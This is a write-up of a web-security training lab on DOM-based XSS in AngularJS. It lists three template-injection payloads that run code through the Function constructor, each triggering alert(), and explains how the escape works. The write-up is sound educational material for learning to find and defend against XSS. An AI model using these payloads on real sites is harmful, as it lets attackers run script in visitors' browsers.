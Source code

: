 # DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
# Objective
This lab contains a DOM-based cross-site scripting vulnerability in a AngularJS expression within the search functionality.\
\
AngularJS is a popular JavaScript library, which scans the contents of HTML nodes containing the ng-app attribute (also known as an AngularJS directive). When a directive is added to the HTML code, you can execute JavaScript expressions within double curly braces. This technique is useful when angle brackets are being encoded.\
\
To solve this lab, perform a cross-site scripting attack that executes an AngularJS expression and calls the alert function.

# Solution
## Analysis
Payload: `{{ 2 + 2 }}` results in JavaScript execution (addition)
|![](Images/image-31.png)|
|:--:| 
| *Equation was calculated -> Code was executed* |

## XSS Exploit
There are different possible solutions to this lab.

### Payload 1
```
{{ $eval.constructor('alert()')() }}
```
![](Images/image-32.png)

### Payload 2
```
{{ $on.constructor('alert()')() }}
```
![](Images/image-33.png)

### Payload 3
```
{{ $apply.constructor('alert()')() }}
```
![](Images/image-34.png)

`.constructor` is data property of an object. It returns a reference to the constructor function that created object instance - `Function()`. `Function()` is a function constructor. By passing to it values it is possible to create new functions.\
In context of this lab, function constructor is called with `alert()`. By adding `()` before closing double curly braces function `$eval.constructor('alert()')` is called directly.